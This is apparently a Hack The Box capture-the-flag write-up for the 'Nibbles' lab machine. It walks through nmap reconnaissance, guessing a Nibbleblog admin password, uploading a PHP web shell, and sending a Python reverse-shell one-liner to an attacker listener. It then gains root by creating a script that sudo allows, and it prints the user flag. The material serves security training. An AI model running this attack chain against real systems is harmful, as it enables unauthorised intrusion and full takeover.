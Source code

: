 ```yaml
---
title: Hack The Box - Nibbles (Without Metasploit)
date: 2021-01-09 22:56:00 +0800
categories: [hackthebox]
tags: [linux, php, sudo]
image:
    path: /assets/images/nibbles.png
---
```


# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn -p- nibbles.htb 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 06:34 EST
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.014s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.81 seconds
```

# Enumeration (1)

## Port 80 `Apache httpd 2.4.18 ((Ubuntu))`

![](/assets/images/nibbles1.png)

There was only these 2 words on the index page. However in the `HTML` source code, we see something.

![](/assets/images/nibbles2.png)

By going to `/nibbleblog/`, there is a blog. 

![](/assets/images/nibbles3.png)

On the bottom right, we see what web app is powering this blog.

![](/assets/images/nibbles4.png)

Searching online, we can find the [Github repo](https://github.com/dignajar/nibbleblog) containing the source code of this web app. By going to `/nibbleblog/update.php`, the version of the blog is shown.

![](/assets/images/nibbles5.png)

Searching online, we see that there is an [article](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) on exploiting this version and uploading webshells to this web app.

However, to do so, we will need to login via `/admin.php`. According to the `/nibbleblog/content/private/config.xml` link shown on the `/nibbleblog/update.php` page, we see that there might be a user called `admin`.

![](/assets/images/nibbles6.png)

Now we will just need to guess the password. Brute-forcing with `hydra` causes us to be blacklisted and unable to access the blog so we will need to be careful and gentle with our password guessing. After much guessing, the password turns out to be the name of this box `nibbles`.

![](/assets/images/nibbles7.png)

# Exploitation (1)

According to the [article](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we need to go under `Plugins` and scroll down to the `My image` plugin. There will be a `Configure` button, which brings us to a page where we can upload our web shell.

![](/assets/images/nibbles8.png)

I uploaded the [`simple-backdoor.php`](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php) and errors were shown.

![](/assets/images/nibbles9.png)

Despite that, our shell was successfully saved to `/nibbleblog/content/private/plugins/my_image/image.php`.

Browsing to `/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami` returns `nibbler`, hence we have achieved code execution on the machine.

Upgrading this to a more stable shell is easy by browsing to :

```
http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

which spawns a reverse shell connection to our `nc` listener that we setup beforehand.

```bash
$ sudo rlwrap nc -vlnp 1337
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.75] 43896
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

# user.txt

The user flag is located in `nibbler` home directory.

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt
3dc94d9843e9bc20d33bb5905d15a8b6
```

# Enumeration (2)

If we check `nibbler`'s `sudo` rights, we see that he can run a certain script as `root`!

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l                     

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Checking the file revealed that this file doesn't exist! That means we can create a fake `monitor.sh` in `/home/nibbler/personal/stuff` which will spawn a shell as `root` when we execute it with `sudo`!

# Exploitation (2)

We simply echo `/bin/bash` into the `monitor.sh` file

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff 
nibbler@Nibbles:/home/nibbler$ echo "/bin/bash" > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod 777 personal/stuff/monitor.sh
```

and execute `monitor.sh` with `sudo` and get a shell as `root`!

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@Nibbles:/home/nibbler# cat /root/root.txt
c5e3XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```




### Rooted ! Thank you for reading and look forward for more writeups and articles !